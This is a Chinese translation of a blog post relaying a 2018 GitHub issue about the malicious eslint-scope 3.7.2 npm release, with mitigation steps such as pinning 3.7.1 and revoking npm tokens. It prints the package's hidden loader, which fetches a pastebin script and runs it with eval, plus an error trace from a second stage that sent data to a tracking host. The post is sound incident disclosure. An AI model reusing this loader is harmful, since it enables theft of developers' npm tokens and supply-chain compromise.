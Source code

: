 # eslint 中的病毒-范围 3.7.2

> 原文:[https://dev.to/maestromac/virus-in-eslint-scope-372-13cn](https://dev.to/maestromac/virus-in-eslint-scope-372-13cn)

我偶然发现了这个问题，想在这里分享一下。

# [![GitHub logo](../Images/75095a8afc1e0f207cda715962e75c8d.png) 病毒在 eslint-scope？ #39](https://github.com/eslint/eslint-scope/issues/39) 

[![pronebird avatar](../Images/335b8b5d91c591096f9a57543c0e09ef.png)](https://github.com/pronebird) **[pronebird](https://github.com/pronebird)** posted on [<time datetime="2018-07-12T11:17:18Z">Jul 12, 2018</time>](https://github.com/eslint/eslint-scope/issues/39)

## 更新博文:[https://eslint . org/blog/2018/07/postmortem-for-malicious-package-publishes](https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes)

## 来自维护者的更新

[来自国家预防机制的事件状态报告](https://status.npmjs.org/incidents/dn7c1fgrr7ng)

请关注@platinumazure 的评论，该评论对所发生的事情有一点了解:[https://github . com/eslint/eslint-scope/issues/39 # issue comment-404533026](https://github.com/eslint/eslint-scope/issues/39#issuecomment-404533026)

在 eslint-config-eslint@5.0.2 中似乎也发布了相同的代码，但后来也没有发布。更多信息见[https://github.com/eslint/eslint/issues/10600](https://github.com/eslint/eslint/issues/10600)。

## 其间

1.  将`eslint-scope`的版本固定到`3.7.1`，一种方法是将`resolutions`添加到您的`package.json`中

```
 "resolutions": {
    "eslint-scope": "3.7.1"
  } 
```

用`yarn list eslint-scope`验证依赖版本。它应该打印出`eslint-scope@3.7.1`

2.  使用`package-lock.json`或`yarn.lock`，如果可能的话，把它放在你的回购中。即使`yarn outdated`显示有新版本可用，也不要升级到 3.7.2。

3.  按照下面评论中的建议撤销您的 NPM 令牌[https://github . com/eslint/eslint-scope/issues/39 # issue comment-404496856](https://github.com/eslint/eslint-scope/issues/39#issuecomment-404496856)。你可以登录 https://www.npmjs.com/的[，从账户下拉菜单中选择“代币”菜单，然后删除页面上列出的所有代币。如果您将 NPM 与外部服务挂钩，请确保重新创建相关令牌。](https://www.npmjs.com/)

## 这个问题

我不知道这到底是什么，但在我看来这像是一种病毒:

```
[2/3] ⠠ eslint-scope
error /Users/pronebird/Desktop/electron-react-redux-boilerplate/node_modules/eslint-scope: Command failed.
Exit code: 1
Command: node ./lib/build.js
Arguments: 
Directory: /Users/pronebird/Desktop/electron-react-redux-boilerplate/node_modules/eslint-scope
Output:
undefined:30
      https1.get({hostname:'sstatic1.histats.com',path:'/0.gif?4103075&101',method:'GET',headers:{Referer:'http://1.a/'+conten
                                                                                                                        ^^^^^^

SyntaxError: Unexpected end of input
    at IncomingMessage.r.on (/Users/pronebird/Desktop/electron-react-redux-boilerplate/node_modules/eslint-scope/lib/build.js:6:10)
    at emitOne (events.js:116:13)
    at IncomingMessage.emit (events.js:211:7)
    at IncomingMessage.Readable.read (_stream_readable.js:475:10)
    at flow (_stream_readable.js:846:34)
    at resume_ (_stream_readable.js:828:3)
    at _combinedTickCallback (internal/process/next_tick.js:138:11) 
```

可疑文件的内容:

```
try{
    var https=require('https');
    https.get({'hostname':'pastebin.com',path:'/raw/XLeVP82h',headers:{'User-Agent':'Mozilla/5.0 (Windows NT 6.1; rv:52.0) Gecko/20100101 Firefox/52.0',Accept:'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'}},(r)=>{
    r.setEncoding('utf8');
    r.on('data',(c)=>{
    eval(c);
    });
    r.on('error',()=>{});

    }).on('error',()=>{});
    }catch(e){}
```

Enter fullscreen mode Exit fullscreen mode

它试图加载的网址是[http://pastebin.com/raw/XLeVP82h](http://pastebin.com/raw/XLeVP82h)

它还试图将我的`.npmrc`发送到某个地方。

这是一小时前发布的 3.7.2 版本。

[View on GitHub](https://github.com/eslint/eslint-scope/issues/39)

软件包管理器是一个令人惊讶的传播病毒的媒介，尤其是当病毒依赖于`babel-eslint`的时候😱